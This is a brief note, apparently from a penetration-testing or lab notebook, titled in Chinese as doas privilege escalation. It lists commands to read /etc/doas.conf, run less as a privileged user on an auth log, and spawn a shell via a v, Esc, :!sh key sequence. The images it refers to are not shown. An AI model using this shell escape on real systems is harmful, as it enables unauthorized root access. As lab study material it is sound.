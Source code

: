 # doas 提权

![[Pasted image 20250628152254.png]]

```
cat /etc/doas.conf
```

![[Pasted image 20250628152343.png]]

```
doas /usr/bin/less /var/log/authlog
```

v + Esc + : + !sh